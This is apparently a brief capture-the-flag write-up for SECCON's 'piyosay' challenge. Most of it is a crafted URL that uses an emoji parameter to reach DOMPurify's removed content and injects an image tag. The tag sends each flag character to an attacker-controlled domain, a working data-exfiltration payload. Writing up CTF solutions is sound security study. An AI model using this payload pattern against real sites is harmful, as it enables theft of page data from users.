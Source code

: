 It's possible to get each character by:
```
http://piyosay.seccon.games:3000/result?emoji=emojis%2FownerDocument%2FdefaultView%2FDOMPurify%2Fremoved%2F0%2Felement%2FtextContent%2F{IDX}&message=%3Cimg%20src=https://{YOUR_DOMAIN}?b={{emoji}}%3C/img%3E%3Cd%60iv%3E%3Cdiv%3E
```

Change `{IDX}` and `{YOUR_DOMAIN}` to get the `{IDX}`-th character of the flag.